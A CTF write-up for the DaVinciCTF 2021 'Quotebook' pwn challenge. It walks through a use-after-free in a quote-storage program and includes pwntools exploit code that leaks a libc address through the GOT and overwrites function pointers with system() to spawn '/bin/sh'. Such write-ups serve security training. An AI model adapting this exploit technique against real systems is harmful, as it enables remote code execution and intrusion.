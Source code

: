 +++
title = "[DaVinciCTF 2021 - pwn] Quotebook"
tags = ["ctf", "DaVinciCTF", "pwn", "heap", "2021", "supersnail", "aaSSfxxx"]
date = "2021-03-15"
+++

# Da Vinci CTF 2021 - Quotebook (499 pts)
The subject of this task was:

>
> I created this amazing service to store all my famous quotes. Can you get the flag?
> 
> nc challs.dvc.tf 2222

We are given the binary, the source code for it and the libc used on the server. We'll need to find a vuln into the binary to get a shell and grab a flag from the server (typical pwn task).

## Source analysis

When looking at the source code, we can see that a quote is defined like this:
```c
typedef struct quote_t quote_t;
struct quote_t
{
    char * content;
    unsigned int content_size;
    char * title;
    unsigned int title_size;
    void (*write)(quote_t *);
    void (*read)(quote_t *);
};
```

and we have an array to store the quotes with a variable which indexes the "current" quote:
```c
quote_t * book[NB_PAGE];
unsigned int book_ctr;
```

So, when a quote is created, a buffer of `sizeof(quote_t)` is allocated, then the program asks the title and content size, to allocate buffers from the given size. Then the title and contents are read from `stdin`.

The interesting things happen when freeing a quote:
```c
    int choice = get_choice("Quote number");
    if(choice < 1 || choice >= book_ctr + 1)
    {
        puts("[!] Error : wrong quote number !");
    }
    else
    {
        free(book[choice - 1]);
        book_ctr--;
    }
```

First of all, the buffers containing the title and quote are not freed (enjoy ur memory leak), and even freed, the pointer is still present on the `book` array, and the book_ctr is decremented (which is useless since you can control which entry you want to free).
So from there we can trigger an use-after-free vulnerability.

## Leaking libc address
If we create a quote and destroy it afterwards, the `book` array still contains the address of the freed buffer. This means that if we can control program allocations, then we can write anything we want on that buffer, while the program still believes it's a `quote_t` structure.

And remember, we can allocate buffers from the size we want while creating a quote, and write what we want on it. And since we can list quotes:
```c
void quote_read(quote_t * quote)
{
    printf("[+] %s", quote->title);
    printf("[>] %s", quote->content);
}
```
, if `content` or `title` point to the binary's GOT section, then we can leak a libc's function address, and then getting the libc base.

But we have to be careful, because `book_ctr` is decremented, if we only create one quote and remove it, its pointer will be overwritten by the new quote we create. So let's create 3 quotes, with buffers of size 1. The heap will look like something like this:
```
-----------------------------------------------
| first struct | second struct | third struct |
-----------------------------------------------
    book[0]        book[1]         book[2]
```
The small buffers we allocated are placed in another heap arena (since they are 1 bytes long)

Now, we'll delete the first two structs, the heap will now look like this:
```
------------------------------------------------
| freed chunk  |  freed chunk  |  third struct |
------------------------------------------------
    book[0]        book[1]         book[2]
```

And this time we'll create a new quote (on `book[book_ctr]`), but with a sizeof(quote) length, so the heap will look like this:
```
------------------------------------------------
| book1 buffer |  freed chunk  |  third struct |
------------------------------------------------
    book[0]        book[1]         book[2]
```
We can clearly see that the freed chunk pointed by book[0] contains the second's quote buffer, and we can craft a fake `quote_t` struct with program's GOT  as title pointer.
```python
# Craft UAF with title overwriting first quote_t structure
s.sendline("2")
print(s.recvuntil('size > '))
# title size
s.sendline("1")
print(s.recvuntil(' size > '))
# content size
s.sendline("48")
s.recvuntil('Title > ')

PRINTF_ADDR = 0x404030
RANDOM_BUF = 0x4040c0
#### Craft structure to leak libc ###
# Pack content and content size
buf = pwn.pack(RANDOM_BUF, 64) + pwn.pack(1, 64)
# Pack title addr and size (printf addr in PLT)
buf += pwn.pack(PRINTF_ADDR, 64) + pwn.pack(8, 64)
# Set function pointers
buf += pwn.pack(0x401236, 64) + pwn.pack(0x401294, 64)

# Send title
s.sendline("a")
print(str(s.recv(), 'ascii'))

# Send content
s.sendline(buf)
print(str(s.recv(), 'ascii'))

# Display quote and trigger UAF
s.recv()
s.sendline("3")
print(s.recv())
s.sendline("1")
s.recvline()
leak = s.recvline() # quote contents contain printf addr
```
This way we can get the glibc's printf address, and compute system() address by doing:
```python
leak = s.recvline()
puts_leak = leak[4:4+6]
addr = pwn.unpack(puts_leak, len(puts_leak)*8)
libc_base = addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols["system"]
```

Now, let's get a shell !
## Pwning the app and getting a shell
Fortunately , the program allows us to edit a quote, this basically means replacing the old buffer's content by something else. Also, the program contains function pointers that we can overwrite to redirect to any address we want since we can craft a whole quote_t structure.

The function pointers have this prototype:
```c
    void (*write)(quote_t *);
    void (*read)(quote_t *);
```
So it would be nice to redirect the control flow to a function which takes one argument, and luckily we have: `system(char *command)` to do this.

So to get a shell we need to:
 - put the `/bin/sh` string at the beginning of the buffer
 - put system address we got from the leak before at the `write` function pointer (since `read` gets overwritten because the programs insert a newline)
 - Edit the first quote (the crafted one) to call our function pointer
 - ???
 - PROFIT

```python
# Edit the second quote so we can control first's quote buffer
s.sendline("4")
s.recv()
s.sendline("2")
# Craft our content buffer
b = b"/bin/sh\x00" + pwn.pack(1, 64)
# Padding to reach function pointers
b += b"A"* 16
b += pwn.pack(system_addr, 64) * 2
s.sendline(b)
s.recvuntil('Choice number > ')

# Edit the first quote to trigger system()
s.sendline("4")
s.recvuntil('Quote number > ')
s.sendline("1")
# Get the shell
s.interactive()
```

You can find the file [here](https://github.com/ret2school/ctf/tree/master/2021/dvctf/pwn/quotebook)
